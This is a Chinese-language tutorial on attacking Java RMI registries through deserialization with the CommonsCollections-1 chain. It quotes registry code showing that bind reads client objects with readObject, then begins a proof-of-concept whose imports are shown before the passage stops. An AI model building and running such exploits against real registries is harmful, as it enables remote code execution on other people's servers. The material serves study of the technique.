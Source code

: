 # RMI反序列化攻击方式
后续漏洞利用演示均利用`CommonsCollections-1`链

## 攻击注册中心
与注册中心进行交互的方式有
> * bind
> * list
> * lookup
> * rebind
> * unbind

在注册中心的处理中，如果存在`readObject`，则可以利用

### bind
```java
case 0:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var94) {
        throw new UnmarshalException("error unmarshalling arguments", var94);
    } catch (ClassNotFoundException var95) {
        throw new UnmarshalException("error unmarshalling arguments", var95);
    } finally {
        var2.releaseInputStream();
    }

    var6.bind(var7, var8);

    try {
        var2.getResultStream(true);
        break;
    } catch (IOException var93) {
        throw new MarshalException("error marshalling return", var93);
    }
```
当调用`bind`时，会利用`readObject`读取参数名及远程对象，因此可以利用

POC:
```java
package RegistryAttack;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.rmi.AlreadyBoundException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/17 2:36 上午
```